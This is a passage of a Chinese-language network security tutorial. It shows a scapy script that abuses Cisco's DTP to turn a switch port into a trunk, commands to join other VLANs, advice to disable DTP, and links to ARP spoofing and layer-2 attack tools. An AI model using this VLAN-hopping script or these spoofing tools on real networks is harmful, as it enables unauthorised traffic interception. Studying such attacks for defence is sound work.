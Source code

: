 多亏了`DTP`协议，和它完全忽视任何一种安全的属性，我们现在就可以发送一个动态可取包到每一个启用DTP的思科设备，并要求它将我们的端口转变为`trunk`端口。

```
#!/usr/bin/python    

import sys
from scapy.layers.l2 import Dot3 , LLC, SNAP
from scapy.contrib.dtp import *    

if len(sys.argv) < 2:
        print sys.argv[0] + " <dev>"
        sys.exit()    

negotiate_trunk(iface=sys.argv[1])

```

作为一个可选参数，你可以设置欺骗相邻交换机的`MAC`地址，如果没有设置，则会自动生成一个随机值。

这种攻击可能会持续几分钟，但是攻击者并不关心延迟，因为他们知道在改变连接到每一个`VLAN`的可能性之后他们会得到什么！

```
vconfig add eth0 <vlan-id>
ifconfig eth0.<vlan-id> <ip_of_vlan> up

```

没有足够好的理由来使用`DTP`，所以干脆禁用掉它吧！

0x09 Tools
==========

* * *

1.  **NetCommander**
    
    `NetCommander`是一个简单的`ARP`欺骗程序。它通过对每一个可能的`IP`发送`ARP`请求，来搜索网络上存活的主机。你可以选择需要劫持的连接，然后每隔几秒，`NetCommander`就会自动地欺骗那些主机和默认网关之间的双向连接。
    
    工具的源代码可以从这里下载：[https://github.com/evilsocket/NetCommander](https://github.com/evilsocket/NetCommander)
    
2.  **Hacker’s Hideaway ARP Attack Tool**
    
    `Hacker’s Hideaway ARP Attack Tool`比`NetCommander`的功能多一些。除了欺骗特殊连接，它还支持被动欺骗所有对源`IP`的`ARP`请求，和`MAC`泛洪攻击。
    
    工具的下载链接为：[https://packetstormsecurity.org/files/81368/hharp.py.tar.bz2](https://packetstormsecurity.org/files/81368/hharp.py.tar.bz2)
    
3.  **Loki**
    
    `Loki`是一种像`Yersinia`的第二层和第三层攻击工具。它可以通过插件来扩展，也有一个漂亮的`GUI`界面。它实现了像`ARP`欺骗和泛洪，`BGP`，`RIP`路由注入之类的攻击，甚至可以攻击像HSRP和VRRP那样非常罕见的协议。
    
    工具的源代码地址为：[https://www.c0decafe.de/loki.html](https://www.c0decafe.de/loki.html)